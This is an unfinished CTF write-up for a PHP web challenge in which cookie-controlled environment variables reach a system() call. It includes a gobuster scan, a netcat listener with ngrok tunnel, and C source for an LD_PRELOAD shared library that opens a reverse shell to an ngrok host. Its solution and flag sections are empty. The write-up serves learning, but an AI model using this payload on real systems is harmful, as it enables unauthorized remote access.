


# Finals: Web - Hello_GreyCat_Beta (1000)

Note: This challenge was not blooded during the whole CTF

## Challenge:

```php
<?php
    // Beauty lies in simplicity
    if(isset($_COOKIE['info'])){
        foreach($_COOKIE['info'] as $key => $value) {
            putenv("{$key}={$value}");
        }

        system('echo Hello, $name');
    }

    if(!isset($_COOKIE['info'])) {
        setcookie('info[name]', "GreyCat");
        header("Location: ".$_SERVER["REQUEST_URI"]);
    }
?>
```

A very similar challenge to the alpha challenge, but significantly harder. We are allowed to put any environment variable as usual, and it will run the `echo` system` function.

After the previous qualifier challenge `Too Fast`, I've learnt my lesson to let `gobuster` run for at least 10 seconds to make sure no random pages are hiding, but also not too long to prevent affecting the infra

```
gobuster dir -u http://34.142.161.21:12322/ -w /shared/dirb/directory-list-2.3-small.txt -t 20 -x .php
```

And we find a `info.php` which has the `phpinfo()`.

We see that the architecture is now `Debian` so the previous exploit would not work


Taking a look at the other functions, we see that `disable_functions` is empty and that `file_uploads` is on. This means that we can still use our `POST` trick to `/tmp/phpxxxxxx` which was used in the challenge [Shero](./Shero.md).



Set up a rev shell

```
nc -lv 12345
```

Tunnel through ngrok

```
ngrok tcp 12345
```

Generate your payload

```c
// gcc -shared -fPIC shell.c -o shell.so

#include <unistd.h>
#include <stdlib.h>

__attribute__ ((__constructor__)) void exec(void){
    if (getenv("LD_PRELOAD") == NULL){ return; }
    unsetenv("LD_PRELOAD");
    system("bash -c \"sh -i >& /dev/tcp/2.tcp.ngrok.io/12345 0>&1\"");
    return;
}
```

### TBC (for some reason i can't complete the exploit locally)

## Solution

```python

```

## Flag

```

```
